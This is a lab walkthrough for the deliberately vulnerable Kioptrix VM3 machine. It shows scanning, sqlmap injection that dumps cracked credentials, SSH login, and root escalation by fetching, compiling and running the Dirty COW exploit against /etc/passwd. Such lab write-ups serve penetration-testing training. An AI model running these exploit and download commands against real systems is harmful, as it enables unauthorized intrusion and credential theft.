 # Kioptrix VM3 Walkthrough

## **Prerequisites**
Before starting, ensure the following:

1. **Kioptrix VM3**: Running on VMware or a similar hypervisor.
2. **Attacking Machine**: A penetration testing OS like Kali Linux.
3. **Knowledge**: Basic familiarity with Linux and penetration testing tools.

---

## **1. Network Configuration and Target Discovery**
Ensure both the Kioptrix VM3 and the attacking machine are on the same network. To discover the target's IP address, perform a network scan using `nmap`:

```bash
nmap 192.168.48.1/24
```

### **Sample Output:**
```plaintext
Nmap scan report for 192.168.48.149
Host is up (0.0031s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:FD:CB:95 (VMware)
```

The target IP address is **192.168.48.149**, with SSH (port 22) and HTTP (port 80) open.

---

## **2. Bind Target IP to a Domain Name**
To simplify referencing the target, bind its IP address to a domain name in your `/etc/hosts` file:

```bash
sudo nano /etc/hosts
```

Add the following line:
```plaintext
192.168.48.149 kioptrix3.com
```

Verify the changes:
```bash
cat /etc/hosts
```

### **Expected Output:**
```plaintext
127.0.0.1 localhost
192.168.48.149 kioptrix3.com
```

---

## **3. Service Enumeration**
Perform a detailed scan to identify running services and their versions:

```bash
nmap -sV 192.168.48.149
```

### **Sample Output:**
```plaintext
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
```

The target is running **Apache on port 80** and **OpenSSH on port 22**.

---

## **4. Enumerating HTTP Services**
Since port 80 is open, access the web application by navigating to:

```plaintext
http://kioptrix3.com/
```

To enumerate hidden directories, use **Gobuster** with a wordlist:

```bash
gobuster dir -u http://kioptrix3.com/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

### **Sample Output:**
```plaintext
/modules (Status: 301)
/gallery (Status: 301)
/data (Status: 403)
/core (Status: 301)
/style (Status: 301)
/phpmyadmin (Status: 301)
```

Directories such as `/gallery` and `/phpmyadmin` are potential targets for further investigation.

---

## **5. Scanning for Web Application Vulnerabilities**
Use **Nikto** to scan for vulnerabilities in the `/gallery` directory:

```bash
nikto -h http://kioptrix3.com/gallery
```

### **Sample Output:**
```plaintext
/gallery/: The X-Content-Type-Options header is not set.
PHP/5.2.4-2ubuntu5.6 appears to be outdated.
Apache/2.2.8 appears to be outdated.
...
/gallery/db.sql: DATABASE SQL FOUND!
```

The `/gallery/db.sql` file contains sensitive data.

---

## **6. SQL Injection Exploitation**
Exploit a SQL injection vulnerability in `/gallery/gallery.php` using **SQLmap**:

```bash
sqlmap --batch --banner -u http://kioptrix3.com/gallery/gallery.php?id=1 --dump
```

### **Sample Output:**
```plaintext
[INFO] fetched: 'dev_accounts' table entries

+----+---------------------------------------------+------------+
| id | password                                   | username   |
+----+---------------------------------------------+------------+
| 1  | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   | dreg       |
| 2  | 5badcaf789d3d1d09794d8f021f40f0e (starwars) | loneferret |
+----+---------------------------------------------+------------+
```

The credentials for `loneferret` are retrieved.

---

## **7. Accessing SSH with Cracked Credentials**
Log in using the retrieved username and password:

```bash
ssh loneferret@192.168.48.149
```

If the connection fails due to unsupported key algorithms, use:

```bash
ssh loneferret@192.168.48.149 -oHostKeyAlgorithms=+ssh-rsa
```

After logging in, explore the system for privilege escalation opportunities.

---

## **8. Privilege Escalation**
### Check Sudo Privileges
Run the following command:

```bash
sudo -l
```

### **Sample Output:**
```plaintext
User loneferret may run the following commands on this host:
(root) NOPASSWD: !/usr/bin/su
(root) NOPASSWD: /usr/local/bin/ht
```

Since `/usr/local/bin/ht` is executable with root privileges, leverage it to gain root access.

### Alternative: Exploit SUID Binaries
Search for SUID binaries or vulnerabilities like Dirty COW:

```bash
searchsploit linux/local/40839
```

Transfer and compile the exploit:

```bash
python3 -m http.server 8000
wget http://192.168.48.157:8000/40839.c
gcc -pthread 40839.c -o dirty -lcrypt
./dirty /etc/passwd
```

This exploit overwrites `/etc/passwd`, granting root access.

---

## **Note**
This walkthrough is for educational purposes only. Ensure you have explicit permission before testing any system. Use these tools responsibly in authorized environments such as CTF challenges or penetration testing engagements.

